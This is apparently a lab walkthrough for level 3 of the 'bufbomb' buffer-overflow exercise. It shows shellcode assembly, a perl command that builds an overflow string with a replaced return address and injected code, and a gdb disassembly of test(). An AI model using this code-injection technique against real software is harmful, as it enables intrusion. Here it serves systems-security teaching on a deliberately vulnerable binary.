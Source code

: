 Open your terminal (not on GDB) and type this compilation command. (file name: assemblylvl3.s).

> gcc -m32 -c assemblylvl3.s<br />
> objdump -d assemblylvl3.o > assemblylvl3.d<br />
> cat assemblylvl3.d<br />

Will give this result:

The compiled code: | | |
--- | --- | ---
assemblylvl3.o:     file format elf32-i386 | | 
Disassembly of section .text: | |
00000000 <.text>: | |
0:    b8 24 d8 9e 1d    |       mov  |  $0x1d9ed824, %eax
5:    68 0c 8d 04 08    |       push |  $0x8048d0c
a:    c3                |       ret  |

Then the next step is creating a string input which is formed by 52 different characters, the return address changed into the starting address of our code injection, and the hexa code of our code injection. To do that, use this command (not on GDB): 

> * perl -e 'print "61 "x32, "62 "x20, "88 36 68 55 ", "b8 24 d8 9e 1d 68 0c 8d 04 08 c3"' > hex0<br />
> * ./hex2raw < hex0 > raw0<br />

The value **88 36 68 55** is the starting address of our code injection. It can be checked the same way as we did on level 2.  

Then, use this command:

> gdb bufbomb<br />
> (gdb) b test<br />
> Breakpoint 1 at 0x8048dbb<br />
> (gdb) run -u eksperimen < raw0<br />
> Userid: eksperimen<br />
> Cookie: 0x1d9ed824<br />
> Masukkan input:<br />
> Breakpoint 1, 0x08048dbb in test ()<br />

And let's see the contents of procedure **test()**.

> (gdb) disas<br />

**Dump of assembler code for function test:**

Address | Operation | Elements in operation
--- | --- | ---
=> 0x08048dbb <+0>:  |  push   %ebx
0x08048dbc <+1>:  |  sub  |  $0x28,%esp
0x08048dbf <+4>:  |  call |  0x8048da2 <uniqueval>
0x08048dc4 <+9>:  |  mov  |  %eax,0x1c(%esp)
0x08048dc8 <+13>:  |  call  |  0x8048d04 <ah_shoo>
0x08048dcd <+18>:  |  mov  |  %eax,%ebx
0x08048dcf <+20>:  |  call  |  0x8048da2 <uniqueval>
0x08048dd4 <+25>:  |  mov  |  0x1c(%esp),%edx
0x08048dd8 <+29>:  |  cmp  |  %edx,%eax
0x08048dda <+31>:  |  je   |  0x8048dea <test+47>
0x08048ddc <+33>:  |  movl  |  $0x804a26d,(%esp)
0x08048de3 <+40>:  |  call  |  0x8048810 <puts@plt>
0x08048de8 <+45>:  |  jmp  |  0x8048e30 <test+117>
0x08048dea <+47>:  |  cmp  |  0x804d10c,%ebx
0x08048df0 <+53>:  |  jne  |  0x8048e18 <test+93>
0x08048df2 <+55>:  |  mov  |  %ebx,0x8(%esp)
0x08048df6 <+59>:  |  movl  |  $0x804a282,0x4(%esp)
0x08048dfe <+67>:  |  movl  |  $0x1,(%esp)
0x08048e05 <+74>:  |  call |  0x8048900 <__printf_chk@plt>
0x08048e0a <+79>:  |  movl |  $0x3,(%esp)
0x08048e11 <+86>:  |  call |  0x8049171 <validate>
0x08048e16 <+91>:  |  jmp  |  0x8048e30 <test+117>